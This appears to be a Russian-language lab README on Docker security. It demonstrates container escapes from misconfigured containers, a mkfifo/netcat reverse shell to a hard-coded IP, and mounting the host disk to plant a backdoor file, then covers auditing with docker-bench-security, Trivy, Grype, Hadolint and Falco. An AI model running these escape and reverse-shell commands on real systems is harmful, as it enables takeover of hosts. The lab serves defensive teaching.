 # Урок 1

Устанавливаем docker и docker-compose (если еще не установлены)

```
apt-get update && apt-get install docker.io && apt-get install docker-compose
apt-get install git
```
Клонируем репозиторий:


Запускаем "плохой контейнер":
```
cd bad_container
docker-compose up -d 
```

Запускаем контейнер "внутри контейнера":
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "хороший контейнер":
```
cd good_container
docker-compose up -d 
```

Запускаем контейнер "внутри" контейнера:
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "очень плохой контейнер"
```
cd very_bad_container
docker-compose up -d 
```

```
mkdir /host_root
mount /dev/sda1 /host_root
echo "Backdoor installed!" > /host_root/tmp/backdoor.txt
```

Запускаем "очень хороший контейнер"
```
cd very_good_container
docker-compose up -d 
```

Проверяем
```
touch /tmp/testfile
chown appuser:appuser /tmp/testfile

date --set "2025-01-01"
```

CAP_SYS_TIME - отсутствует поэтому время изменить не удалось

# Урок 2
```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```

# Урок 3 

Trivy
Проверка образов
```
docker run --rm aquasec/trivy image <имя_образа>
```
Проверка конфигурации
```
docker run --rm -v $(pwd):/project aquasec/trivy config /project/Dockerfile
```

Grype
```
docker run --rm anchore/grype <имя_образа>
```

Hadolint
```
docker run --rm -i hadolint/hadolint < Dockerfile
```
Урок 4
Falco
```
curl -fsSL https://falco.org/repo/falcosecurity-packages.asc | \
sudo gpg --dearmor -o /usr/share/keyrings/falco-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/falco-archive-keyring.gpg] https://download.falco.org/packages/deb stable main" | \
sudo tee -a /etc/apt/sources.list.d/falcosecurity.list

sudo apt-get install apt-transport-https

apt-get update -y

FALCO_FRONTEND=noninteractive apt-get install -y falco
```
